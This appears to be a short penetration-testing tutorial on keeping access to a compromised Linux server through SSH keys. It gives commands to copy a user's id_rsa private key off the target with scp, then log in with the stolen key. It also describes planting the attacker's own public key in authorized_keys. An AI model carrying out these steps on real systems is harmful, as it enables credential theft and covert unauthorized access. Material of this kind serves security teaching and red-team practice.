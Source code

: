
### Persistence Via SSH Keys

+ Linux is typically deployed as a server operating system and as a result, Linux servers are typically accessed remotely via services/protocols such as SSH.

+ If SSH is enabled and running on a Linux system you have compromised, you can take advantage of the SSH configuration to establish persistent access on the target system.

+ In most cases Linux servers will have key-based authentication enabled for the SSH service, allowing users to access the Linux system remotely without the need for a password.

+ After gaining access to a Linux system, we can transfer the SSH private key of a specific user account to our system and use that SSH private key for all future authentication and access. 

### How to perform ?

1. We're assuming that we've already gained initial access to the system using SSH.

2. Whenever we generate a SSH key pair with an utility like `ssh-keygen`, it'll generate 2 files, `id_rsa` which is the private key and the `id_rsa.pub` file, which is the public key. In our case, the target system has a `id_rsa` private key file inside the `.ssh` hidden directory. 

3. We'll download the `id_rsa` private key file from the target machine using the `scp` utility.
```
scp <username>@<target-ip>:/path/to/file . 
```

4. After downloading we'll give the file necessary permissions using `chmod 400 id_rsa`

5. Now, if the SSH password gets reset, we can login using the `id_rsa` private key.
```
ssh -i id_rsa <username>@<target-ip>
```

6. In an ideal scenario, we would generate a SSH key pair in our system, keep the private with us and transfer the public key to the target system and add it to the authorised keys in the target's SSH directory. 